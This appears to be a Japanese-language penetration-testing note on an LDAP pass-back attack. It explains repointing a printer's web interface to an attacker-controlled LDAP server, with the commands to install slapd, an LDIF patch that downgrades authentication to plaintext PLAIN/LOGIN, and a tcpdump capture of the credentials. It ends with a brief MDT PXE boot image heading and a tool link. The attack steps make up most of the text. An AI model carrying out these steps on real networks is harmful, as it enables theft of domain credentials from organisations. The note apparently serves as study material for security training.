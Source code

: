 プリンターなどの Web インターフェースで、LDAP サーバーの IP アドレスを自分の IP アドレスに変更できる場合などを想定。LDAP サーバーへ送信される認証情報を盗む。通常は暗号化されるので、認証メカニズムをダウングレードした LDAP サーバーを用意する。

#### 不正 LDAP サーバーのホスティング

インストール

```shell
sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

サーバー構成

```shell
# No を選択
sudo dpkg-reconfigure -p low slapd
```

- ドメイン名
- 組織名（ドメイン名と同じで可）
- 管理者パスワード
- データベースが消去時に削除されないように、No
- 新しい DB ファイルを作成する前に、古い DB ファイルを移動する、Yes

サポート認証メカニズムをダウングレードして脆弱にするパッチ

```text
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

パッチ適用

```shell
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

確認

```shell
$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: LOGIN
supportedSASLMechanisms: PLAIN
```

LDAP サーバーへのリクエストを傍受

```shell
$ sudo tcpdump -SX -i breachad tcp port 389
```

## Microsoft Deployment Toolkit (MDT)

### PXE ブートイメージ

ブートイメージの取得  
https://github.com/wavestone-cdt/powerpxe

